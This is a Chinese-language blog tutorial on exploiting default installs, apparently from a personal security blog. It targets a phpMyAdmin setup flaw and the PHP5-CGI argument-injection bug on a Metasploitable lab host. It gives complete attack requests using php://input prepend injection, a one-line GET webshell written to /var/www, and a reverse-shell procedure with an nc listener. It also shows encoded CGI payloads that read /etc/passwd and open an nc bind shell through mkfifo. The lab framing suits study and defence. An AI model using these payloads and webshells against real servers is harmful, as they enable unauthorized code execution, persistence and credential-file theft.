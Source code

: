 ```yaml
---
title: 手动挖掘之默认安装漏洞
date: 2018-10-23 23:15:28
categories: WEB安全
tags: 手工挖掘漏洞

---
```


<div align="middle"><iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=5181411&auto=0&height=66"></iframe></div>

## phpMyAdmin默认安装漏洞

大家好,欢迎来到我的博客,这是我第一次使用该博客去发表文章,内心激动不已,那么让我们聊聊默认安装带来的安全问题吧.

phpMyAdmin是phpMyAdmin团队开发的一套免费的、基于Web的MySQL数据库管理工具。该工具能够创建和删除数据库，创建、删除、修改数据库表，执行SQL脚本命令等。

其安装在Web服务器上的接口界面,主要用于使用php来管理安装服务器上的后台数据库(MySQL数据库),但如果采用默认安装,敏感路径未做出处理,便会存在安全漏洞,最突出的是其setup脚本中存在着服务器端请求伪造漏洞。远程攻击者可利用该漏洞执行未授权的操作。

以下版本受到影响：phpMyAdmin 4.0.10.19之前的版本，4.4.15.10之前的4.4.x版本，4.6.6之前的4.6.x版本。

如果目标系统采用php语言搭建的环境,那么可以尝试使用一些扫描软件或者手动爬网去试图发现是否存在phpmyadmin目录.

测试环境:
kali:192.168.128.128/24
Metasploitable:192.168.128.129/24

1,存在phpmyadmin界面:
![](1.png)
如果用户未对phpmyadmin目录下的setup文件进行安全处理,那普通用户可以在不进行身份认证的情况下,便可以配置服务器信息(防范措施:不允许其他用户从公网访问phpMyAdmin目录或者禁止访问setup文件)
![](2.png)

我们可以通过构造参数执行配置指令,并利用php伪协议提交post内容执行

```
POST http://192.168.128.129/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1      
 #问号及其后面的内容用于修改修改php的主配置文件php.ini，从而可以执行下面插入的php代码

Host: 192.168.128.128 

Content-Length: 35

<?php 

passthru('id');        
 #passthru() 函数用于调用系统命令，并把命令的运行结果原样地直接输出到标准输出设备上。
 #也可以将id命令换成其他Linux命令去获取web系统的数据,目前使用的是普通用户www-date,权限有限

die();                
 #die() 函数输出一条消息，并退出当前脚本,此处使用为了避免获取多余无用的信息

?>
```



可以使用Burpsuite的Repeater工具该发送post请求,获取目标的信息![](3.png) 
由刚刚的id命令得知目前的用户为www-data,由查看账户信息得知其主目录为/var/www,那么便可以向其主目录写入木马,以实现远程控制的效果
![](4.png)
![](5.png)


命令如下: 

```
POST http://192.168.128.129/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
Host: 192.168.128.128 
Content-Length: 102

<?php 

passthru('echo "<?php \$cmd = \$_GET["cmd"];system(\$cmd);?>" >/var/www/2.php');
#该木马表示将GET方式获取的指令赋值于cmd命令,并使用system()函数运行cmd变量存储的命令
#反斜杠作用:避免服务器将上传内容过滤,输入命令无效
die();

?>
```



通过在浏览器访问该木马,便可获取目标系统的shell
![](6.png) 

使用kali中的php脚本获取反弹shell

反弹shell:指的是我们在自己的机器上开启监听，然后在被攻击者的机器上发送连接请求去连接我们的机器，将被攻击者的shell反弹到我们的机器上，那么我们就可以在本地使用被攻击主机的命令并且不容易被发现

kali中的PHP的反弹shell为:/usr/share/webshells/php/php-reverse-shell.php![](7.png)
然后编辑php/php-reverse-shell.php,修改ip地址为本机kali的地址,端口号选1024-65535之内任意(1-1023端口已经被系统服务占用) ![](8.png)

使用nc命令在本地(kali主机)监听本地1234端口![](9.png) 
然后将php-reverse-shell.php的内容粘贴至发送的POST请求中,点击go 
![](10.png)
![](11.png) 

## **Ubuntu/Debain默认安装PHP5-CGI漏洞**

其针对Apache/PHP远程代码执行漏洞攻击
该漏洞存在于使用PHP的Apache服务器，在Debian和Ubuntu的服务器上默认安装php5-cgi模块的服务器都存在此漏洞。
程序员可以使用CGI模块在PHP代码中调用操作系统的命令
如果安装了PHP5-CGI,则会在/usr/lib/cgi-bin下面生成两个二进制文件:php和php5
![](12.png)
我们发送编码后的参数信息(编码是为了防止服务器过滤信息)去获取目标服务器的shell

```
POST 
/cgi-bin/php?%2D%64+%61%6C%6C%6F%77%5F%75%72%6C%5F%69%6E%63%6C%75%64%65%3D%6F%6E+%2D%64+%73%61%66%65%5F%6D%6F%64%65%3D%6F%66%66+%2D%64+%73%75%68%6F%73%69%6E%2E%73%69%6D%75%6C%61%74%69%6F%6E%3D%6F%6E+%2D%64+%64%69%73%61%62%6C%65%5F%66%75%6E%63%74%69%6F%6E%73%3D%22%22+%2D%64+%6F%70%65%6E%5F%62%61%73%65%64%69%72%3D%6E%6F%6E%65+%2D%64+%61%75%74%6F%5F%70%72%65%70%65%6E%64%5F%66%69%6C%65%3D%70%68%70%3A%2F%2F%69%6E%70%75%74+%2D%64+%63%67%69%2E%66%6F%72%63%65%5F%72%65%64%69%72%65%63%74%3D%30+%2D%64+%63%67%69%2E%72%65%64%69%72%65%63%74%5F%73%74%61%74%75%73%5F%65%6E%76%3D%30+%2D%6E HTTP/1.1

Host: 123

Content-Length: 45



<?php

echo system('cat /etc/passwd');

?> 
```



![](13.png)	
其实将刚刚编码的数据进行解码,可以看到其实就是PHP的参数数据
![](14.png)

也可以让服务器主动打开一个端口,然后在本地使用nc去连接
代码:

```
POST /cgi-bin/php?%2D%64+%61%6C%6C%6F%77%5F%75%72%6C%5F%69%6E%63%6C%75%64%65%3D%6F%6E+%2D%64+%73%61%66%65%5F%6D%6F%64%65%3D%6F%66%66+%2D%64+%73%75%68%6F%73%69%6E%2E%73%69%6D%75%6C%61%74%69%6F%6E%3D%6F%6E+%2D%64+%64%69%73%61%62%6C%65%5F%66%75%6E%63%74%69%6F%6E%73%3D%22%22+%2D%64+%6F%70%65%6E%5F%62%61%73%65%64%69%72%3D%6E%6F%6E%65+%2D%64+%61%75%74%6F%5F%70%72%65%70%65%6E%64%5F%66%69%6C%65%3D%70%68%70%3A%2F%2F%69%6E%70%75%74+%2D%64+%63%67%69%2E%66%6F%72%63%65%5F%72%65%64%69%72%65%63%74%3D%30+%2D%64+%63%67%69%2E%72%65%64%69%72%65%63%74%5F%73%74%61%74%75%73%5F%65%6E%76%3D%30+%2D%6E HTTP/1.1

Host: 123

Content-Length: 86



<?php

echo system('mkfifo /tmp/pipe;sh /tmp/pipe | nc -nlp 4444 > /tmp/pipe');

?> 
```



![](15.png)
![](16.png)